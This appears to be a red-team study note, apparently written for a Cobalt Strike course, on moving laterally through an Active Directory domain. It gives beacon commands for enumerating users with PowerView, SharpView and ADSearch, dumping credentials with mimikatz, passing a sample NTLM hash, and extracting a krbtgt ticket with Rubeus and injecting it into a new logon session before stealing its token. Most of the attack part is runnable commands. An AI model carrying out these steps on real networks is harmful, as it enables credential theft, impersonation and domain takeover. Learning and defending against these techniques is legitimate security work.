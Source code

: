 # How to know and become someone else >:)

After elevating access on a Workstation, we should do some domain recon to see where we may be able to leverage them.
Being System on a service is mandatory in order to steal password using ```mimikatz``` and to perform user impersonation with _pass the hash, pass the ticket, overpass the hash, token impersonation and process injection. _
So, become SYSTEM on a workstation is mandatory to perform some action, but be able to impersonate someone who has access to more (even all!) systems inside an AD (like a user from the admin group) is way more important.
## Enumeration is the first step
We could enumerate from the current domain as a standard domain user initially with
- **PowerView**
```
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
```
- **SharpView**
```
beacon> execute-assembly C:\Tools\SharpView\SharpView\bin\Release\SharpView.exe Get-Domain
```
- **ADSearch**
```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "objectCategory=user"
```

We would know from our domain recon who is a **local administrator** on multiple computers via his **membership** and get credential materials like NTLM hash, AES256 hash and a Kerberos TGT.

### Pass the Hash
The **Pass the Hash** technique is done using the NTLM hash. That can be retrieved with mimikatz 
```
beacon> mimikatz !sekurlsa::logonpasswords
```
and then perform the action
```
beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c
```
### Pass the Ticket
Pass the ticket is a technique that allows you add Kerberos tickets to a logon session (LUID)
with ```Rubeus triage``` you can extract Kerberos tickets
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
```
with Rubeus
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt
```
This will output the ticket in base64 encoded format.
At this point, we want to create a blank, "sacrificial" logon session that we can pass the TGT into.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
```
The next step is to pass the TGT into this new LUID using the Rubeus ptt command.  Where the /luid is the new LUID we just created and /ticket is the base64 encoded ticket we previously extracted.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /luid:0x798c2c /ticket:doIFuj[...snip...]lDLklP
```
The final step is to impersonate the process that we created with _createnetonly_ using Cobalt Strike's ```steal_token``` command.

